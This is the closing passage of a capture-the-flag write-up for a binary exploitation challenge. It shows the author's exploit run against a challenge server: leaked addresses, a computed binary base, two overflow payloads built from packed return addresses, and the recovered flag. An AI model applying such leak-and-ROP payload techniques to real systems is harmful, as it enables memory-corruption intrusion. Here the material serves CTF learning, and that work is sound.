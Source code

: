```python
s.interactive()
```
In the end i decided to call `s.interactive()` to recieve any leftover output from the remote, but this is not an interactive exploit of the `system("bin/sh")` variety so there is no input to the script.

After running the exploit script i got the flag:
```
[msaw328]$ python solve.py 
[+] Opening connection to 0.cloud.chals.io on port 13163: Done
PROG OUT: b'Please authenticate >>>\n'
PROG OUT: b'<<< Welcome:'
ADDR LEAK:  0x5641ae1530e0

BIN BASE LEAK: 0x5641ae152000
VULN: 0x5641ae153531
PROG OUT: b'Welcome To Mission Control. Tell me to do something >>>\n'
SENDING PAYLOAD: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8b6\x15\xaeAV\x00\x00\xb8M\x15\xaeAV\x00\x00\x896\x15\xaeAV\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xbe4\x15\xaeAV\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x102\x15\xaeAV\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xdb4\x15\xaeAV\x00\x0015\x15\xaeAV\x00\x00'
PROG OUT: b'<<< Invalid Command.\nPlease authenticate >>>\n'
PROG OUT: b'<<< Welcome: test\nWelcome To Mission Control. Tell me to do something >>>\n'
SENDING PAYLOAD2: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8b6\x15\xaeAV\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x896\x15\xaeAV\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xef\xbe\xed\xda\x00\x00\x00\x00\xbe4\x15\xaeAV\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc74\x15\xaeAV\x00\x00d\x00\x00\x00\x00\x00\x00\x00\x102\x15\xaeAV\x00\x00(\x00\x00\x00\x00\x00\x00\x00\xdb4\x15\xaeAV\x00\x0015\x15\xaeAV\x00\x00'
[*] Switching to interactive mode
<<< Invalid Command.
shctf{1-sma11-St3p-f0r-mAn-1-Giant-l3ap-f0r-manK1nd}
Please authenticate >>>
[*] Got EOF while reading in interactive
$ 
```

### Flag: `shctf{1-sma11-St3p-f0r-mAn-1-Giant-l3ap-f0r-manK1nd}`
